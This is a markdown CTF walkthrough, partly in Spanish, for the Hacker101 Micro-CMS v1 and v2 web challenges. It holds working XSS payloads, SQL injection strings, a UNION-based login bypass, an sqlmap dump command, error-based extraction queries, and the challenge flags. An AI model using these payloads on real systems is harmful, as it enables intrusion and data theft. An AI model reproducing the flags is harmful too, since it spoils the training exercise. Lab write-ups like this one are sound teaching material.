





# HackerOne Hacker101 CTF

## Micro-CMS v1
### Web - Easy (2/flag)

### Hints
* Flag0
	* Try creating a new page
	* How are pages indexed?
	* Look at the sequence of IDs
	* If the front door doesn't open, try the window
	* In what ways can you retrieve page contents?
* Flag1
	* Make sure you tamper with every input
	* Have you tested for the usual culprits? XSS, SQL injection, path injection
	* Bugs often occur when an input should always be one type and turns out to be another
	* Remember, form submissions aren't the only inputs that come from browsers
* Flag2
	* Sometimes a given input will affect more than one page
	* The bug you are looking for doesn't exist in the most obvious place this input is shown
* Flag3
	* Script tags are great, but what other options do you have?



```html
<!doctype html>
<html>
  <head>
    <title>Micro-CMS</title>
  </head>
  <body>
    <ul>
      <li><a href="page/1">Testing</a></li>
      <li><a href="page/2">Markdown Test</a></li>
    </ul>
    <a href="page/create">Create a new page</a>
  </body>
</html>
```

### Flag0 - Access to private page

* /page/7 -> Forbidden
* /page/edit/7 -> OK




### Flag1 - XSS on Title

Create new page and inject XSS on "Title" input.
```
<script>alert(1)</script>
```




### Flag2 - SQLi

Page edit parameter is vulnerable to SQLi, no need to exploit

```	
/page/edit/1'
```

### Flag3 - XSS on "Body"

**script** tag is filtered in body, but we can use `img onerror`
```

```


## Micro-CMS v2
### Web - Moderate (3/flag)	



### Hints
* Flag0
	* Regular users can only see public pages
	* Getting admin access might require a more perfect union
	* Knowing the password is cool, but there are other approaches that might be easier
* Flag1
	* What actions could you perform as a regular user on the last level, which you can't now?
	* Just because request fails with one method doesn't mean it will fail with a different method
	* Different requests often have different required authorization
* Flag2
	* Credentials are secret, flags are secret. Coincidence?


Version 2
This version fixed the multitude of security flaws and general functionality bugs that plagued v1. Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20. By default, users need to be an admin to add or edit pages now.


### Login

Probamos credenciales por defecto `admin:admin`, obtenemos el error `Unknown user`.


#### Error SQL
Si inyectamos una comilla, la aplicación nos devuelve un error y nos muestra parte de su código.
```python
cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
```

Inyectamos en el usuario `' or '1'='1` y nos devuelve el error `Invalid password`.


#### Bypass con UNION SELECT
Conociendo como se forma la sentencia SQL, utilizamos *UNION* para lograr el bypass del login.

User: `' UNION SELECT 'patatas' -- -`

Pass: `patatas`





#### SQLmap

```bash
sqlmap -u 'http://HOST/login' --data 'username=admin&password=password' -D level2 --dump
```

```
Database: level2

Table: admins
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | cecille  | leila    |
+----+----------+----------+

Table: pages
+----+-------------------------------------------------------------------------------------------+--------------+--------+
| id | body                                                                                      | title        | public |
+----+-------------------------------------------------------------------------------------------+--------------+--------+
| 3  | My secret is ^FLAG^b7d3ca34a21796c1de180295a9975cfe2e939126ff6ae752979dbecf7304966f$FLAG$ | Private Page | 0      |
+----+-------------------------------------------------------------------------------------------+--------------+--------+
```

Si accedemos con las credenciales de *cecille* obtenemos una de las flags.
`^FLAG^a15713efda8be73a564145daa870f20ddf526f9c1f1d6b80febbf4f976477a05$FLAG$`

#### SQLi

Extract info with error based
```
username=' and extractvalue(0,concat(0x7c,version(),0x7c))--+--+-&password=
OperationalError: (1105, "XPATH syntax error: '|10.1.37-MariaDB-0+deb9u1|'")
```

```
database() -> level2
SELECT table_name FROM information_schema.tables WHERE table_schema='level2' LIMIT 0,1 -> admins
SELECT table_name FROM information_schema.tables WHERE table_schema='level2' LIMIT 1,1 -> pages
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='level2' AND table_name='admins' -> id,username,password
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='level2' AND table_name='pages' -> id,public,title,body
SELECT concat(id,0x7c,username,0x7c,password) FROM level2.admins LIMIT 0,1 -> |1|cecille|leila|
```

### Modificar pagina sin estar autenticado

Otra de las vulnerabilidades de esta aplicación es la posibilidad de modificar una pagina sin necesidad de estar autenticado.


```bash
curl http://HOST/page/edit/2 --data 'title=Patatas&body=Deluxe'
^FLAG^4e8ac2f8652f2fd59bff813bf53eea3b06f5a4f2e8761ee10bf0521df6a51ee2$FLAG$
```
